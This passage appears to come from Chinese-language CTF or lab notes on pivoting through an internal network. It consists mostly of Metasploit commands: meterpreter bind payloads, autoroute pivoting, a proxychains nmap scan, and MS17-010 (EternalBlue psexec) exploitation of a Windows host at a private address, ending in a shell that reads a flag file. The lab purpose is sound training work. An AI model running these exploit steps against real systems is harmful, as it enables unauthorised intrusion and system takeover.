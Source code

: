      set payload linux/x64/meterpreter/bind_tcp
     
     set rhost 192.168.22.128
     
     set LPORT 3333
     
     exploit
     ```

   - 信息收集及配置访问

     - 获取网络接口：

       ``` powershell
       run get_local_subnets
       ```

     - 查看路由地址：

       ``` powershell
       run autoroute -p
       ```

     - 添加路由地址：

       ``` powershell
       run autoroute -s 192.168.33.0/24
       ```

4. Target3:探针目标-端口及漏洞扫描-利用MS17010获取系统权限-获取Flag

   ``` powershell
   proxychains nmap -Pn -sT 192.168.33.33
   
   use auxiliary/scanner/smb/smb_ms17_010   #判断漏洞
   
   use exploit/windows/smb/ms17_010_psexec  #验证漏洞
   
   set payload windows/meterpreter/bind_tcp #正向连接
   
   set RHOSTS 192.168.33.33  #攻击目标
   
   set RHOST 192.168.33.33   #连接目标
   
   exploit
   
   shell
   
   dir /S flag.txt /B
   
   type C:\Users\Administrator\Desktop\flag.txt
   ```

![内网隧道穿透漫游2](img/NwSdMy2.png)